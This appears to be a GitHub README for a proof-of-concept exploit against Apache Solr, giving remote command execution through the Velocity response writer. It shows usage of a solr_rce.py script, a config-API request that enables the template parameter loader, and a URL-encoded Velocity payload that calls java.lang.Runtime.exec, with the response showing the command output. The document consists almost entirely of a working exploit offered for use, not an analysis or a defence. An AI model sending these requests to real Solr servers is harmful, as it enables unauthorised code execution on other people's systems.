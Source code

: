 # Apache Solr RCE via Velocity template

## python usage:

`python solr_rce.py http://192.168.5.86:8983 command`


![](./solr-rce.jpg)

## Attack start


1. Set `params.resource.loader.enabled` as true.

```
Request:
========================================================================
POST /solr/test/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
========================================================================
```

2. RCE via velocity template

```
Request:
========================================================================
GET /solr/test/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end HTTP/1.1
Host: localhost:8983
========================================================================


Response:
========================================================================
HTTP/1.1 200 OK
Content-Type: text/html;charset=utf-8
Content-Length: 56

     0  uid=8983(solr) gid=8983(solr) groups=8983(solr)
========================================================================
```

## 参考链接：

https://gist.githubusercontent.com/s00py/a1ba36a3689fa13759ff910e179fc133/raw/fae5e663ffac0e3996fd9dbb89438310719d347a/gistfile1.txt
